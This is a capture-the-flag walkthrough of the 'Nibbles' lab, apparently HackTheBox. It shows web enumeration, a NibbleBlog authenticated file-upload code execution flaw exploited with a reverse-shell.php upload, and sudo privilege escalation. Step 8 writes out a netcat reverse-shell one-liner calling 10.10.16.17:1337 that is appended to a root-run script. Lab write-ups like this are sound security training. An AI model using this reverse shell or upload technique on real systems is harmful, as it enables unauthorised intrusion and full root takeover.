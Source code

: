1.How many open TCP ports are listening on nibbles?
First what we need to do is check what's happend on the server and how many ports are open.
We don't see nothing intresting, only some SSH and HTTP. Let's go dipper to find something more intresting.

![obraz](https://github.com/Anogota/Nibbles/assets/143951834/f41ed141-e648-4f40-b5d2-ebc17c793eff)

2.What is the relative path on the webserver to a blog?
First what i did is go to website, but there is nothing intresting, only Hello world!
But when i check the source code i found <!-- /nibbleblog/ directory. Nothing interesting here! -->
This looks very intresting and this also the answer for as question :)

3.What content management system (CMS) is being used by the blog??
I check the source code but there is nothing intresting, i recommend to install extensions wallalyzer, this extension help mi figure out what kind of software running on the server, but in this situation, wapalyzer don't detect the CMS lol :P
Next my think is maybe to find some switch for nmap to detect the CMS. I found this --script=http-enum but still i don't have any idea what kind of CMS is this.
After few min, checking the webpage i found in right corner: Powered by nibbleblog, lol

4.What is the relative path to an XML file that contains the admin username?
I used feroxbuster, with this tool you can, forced browsing is an attack where the aim is to enumerate and access resources that are not referenced by the web application, but are still accessible by an attacker. feroxbuster uses brute force combined with a wordlist to search for unlinked content in target directories
I found this:

![obraz](https://github.com/Anogota/Nibbles/assets/143951834/5d3e718a-289f-498e-9552-6ddeae9c8f2f)

5.What is the 2015 CVE ID for an authenticated code execution by file upload vulnerability in this version of NibbleBlog.
First our resource to find exploit is exploit-db, there no many exploit for NibbleBlog, but after few secend i found this.

![obraz](https://github.com/Anogota/Nibbles/assets/143951834/b55c098e-3424-40e2-bff5-5b95ff34226b)

But i try also find this exploit on metasploit and here is the results: 0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability
Now we need to insert all data to run this exploit.

![obraz](https://github.com/Anogota/Nibbles/assets/143951834/3e5cdd2a-0351-4598-a820-facbf40523cf)

All like RHOST or LHOST i hope you have to know, what kind of value the need, but the TARGETURI is /nibbleblog/content/private/users.xml
But i have no idea why this exploit don't wanna run, i do some recon and i found how to do RCE by file upload. You need to go plugins/my_image and there you can use your reverse-shell.php, but remember before upload this image, change the ip, on your local. After ur upload go to nibbleblog/content/private/plugins/my_image/ and there you can find your reverse-shell

![obraz](https://github.com/Anogota/Nibbles/assets/143951834/c4a4b6ea-3d75-4294-b844-ad34646fd11d)

6.Submit the flag located in the nibbler user's home directory.
You need to go into this directory and there you can find user.txt /home/nibbler

7.What is the name of the script that nibbler can run as root on Nibbles?
By command: sudo -l you can know, what kind of script nibbler can run as root, here is the results:
Now we know, this script name is monitor.sh

![obraz](https://github.com/Anogota/Nibbles/assets/143951834/febbccc3-9e94-47af-9bae-80a290a71b01)

8.Submit the flag located in root's home directory.
It is easy to get you need to only write this command in your terminal: echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.17 1337 >/tmp/f' | tee -a monitor.sh
Than you have access by root. Than write this sudo /home/nibbler/personal/stuff/monitor.sh and you got this, the root.

![obraz](https://github.com/Anogota/Nibbles/assets/143951834/0fd73d4a-7b80-4aff-80c7-286c931650c3)

Now to to the /root and get your own, and you pwned the lab :)

